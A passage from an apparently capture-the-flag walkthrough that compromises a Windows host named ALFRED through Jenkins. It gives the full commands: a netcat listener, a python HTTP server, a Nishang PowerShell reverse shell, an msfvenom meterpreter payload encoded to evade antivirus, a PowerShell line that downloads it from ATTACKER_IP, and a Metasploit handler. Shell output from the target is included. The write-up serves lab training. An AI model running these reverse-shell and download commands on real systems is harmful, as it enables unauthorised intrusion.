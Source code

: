 cd nishang/Shells

**4. Create http server to serve Nishang Invoke-PowerShellTcp script**

python3 -m http.server

**5. Create listener to catch the reverse shell**

nc -lvnp 1234

**6. Use Jenkins feature to download and run Nishang script**

* **Build Now** feature executes saved PowerShell.
* PowerShell uploaded to target.

TARGET\_IP - - \[23/Feb/2024 15:27:19] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

**7. Reverse shell caught by listener**

Connection from TARGET\_IP 49253 received!

Windows PowerShell running as user bruce on ALFRED

Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami

alfred\bruce

* "user.txt" is located in "C:\users\bruce\desktop" directory.

### **Switching shells** <a href="#j8aakoce5aww" id="j8aakoce5aww"></a>

* Switch to meterpreter shell to make privilege escalation easier.

**1. Use msfvenom to create meterpreter reverse shell.**

* Payload generated is encoded x86-64 reverse TCP payload.
  * Encoding used to evade AV products.

msfvenom -p windows/meterpreter/reverse\_tcp -a x86 --encoder x86/shikata\_ga\_nai lhost=ATTACKER\_IP lport=2345 -f exe -o reverse\_shell.exe

**2. Create http server to serve payload.**

* Ensure HTTP server is running from the directory where "reverse\_shell.exe" is located.

python3 -m http.server

**3. Download payload to target.**

powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER\_IP:8000/reverse\_shell.exe','reverse\_shell.exe')"

**3. Verify handler is set up in Metasploit.**

* Use Metasploit handler to receive incoming connection from reverse shell.

msfconsole

use exploit/multi/handler
